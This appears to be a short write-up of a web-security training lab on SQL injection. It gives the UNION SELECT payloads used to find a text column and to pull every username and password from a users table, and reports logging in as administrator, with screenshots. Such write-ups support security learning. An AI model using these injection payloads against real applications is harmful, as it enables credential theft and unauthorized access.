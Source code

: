 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

> We used the payload 'UNION+SELECT+NULL,'a'--

> Here only the second column returns the text data. Now used the payload 'UNION+SELECT+NULL,username||'~'||password+FROM+users-- to

![image](https://github.com/udayk01/Web-Security/assets/52235763/24755c2c-4c55-4829-bba1-8375d5b44e02)

![image](https://github.com/udayk01/Web-Security/assets/52235763/7f27a371-2dd6-4e79-9adb-78378d9fdb70)

> Tried signing in with the username and password.

![image](https://github.com/udayk01/Web-Security/assets/52235763/051254f8-1c47-4528-83a3-4097267b23a3)

> Successfully logged in

![image](https://github.com/udayk01/Web-Security/assets/52235763/48b77464-1493-49b6-a705-8a6e7344d3e4)

